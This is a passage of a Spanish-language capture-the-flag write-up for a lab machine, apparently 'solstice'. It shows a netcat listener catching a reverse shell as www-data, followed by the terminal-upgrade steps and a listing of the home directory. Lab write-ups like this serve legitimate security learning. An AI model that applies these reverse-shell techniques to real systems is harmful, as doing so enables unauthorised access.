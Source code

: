 Vamos a ganar acceso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Vamos a ejecutar el comando para ganar acceso

![](/assets/images/vh-writeup-pivoting2/9.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.94] from (UNKNOWN) [192.168.1.153] 60128
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@solstice:/var/tmp/webserver$ whoami
whoami
www-data
www-data@solstice:/var/tmp/webserver$ 
```

Vamos a hacer un tratamiento de la `tty` para poder hacer un `ctrl+c`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.94] from (UNKNOWN) [192.168.1.153] 60128
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@solstice:/var/tmp/webserver$ whoami
whoami
www-data
www-data@solstice:/var/tmp/webserver$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@solstice:/var/tmp/webserver$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@solstice:/home$ export TERM=xterm
```

Podemos entrar

```bash
www-data@solstice:/home$ ls -l
total 4
drwxr-xr-x 3 miguel miguel 4096 Jun 26  2020 miguel
www-data@solstice:/home$ 

```
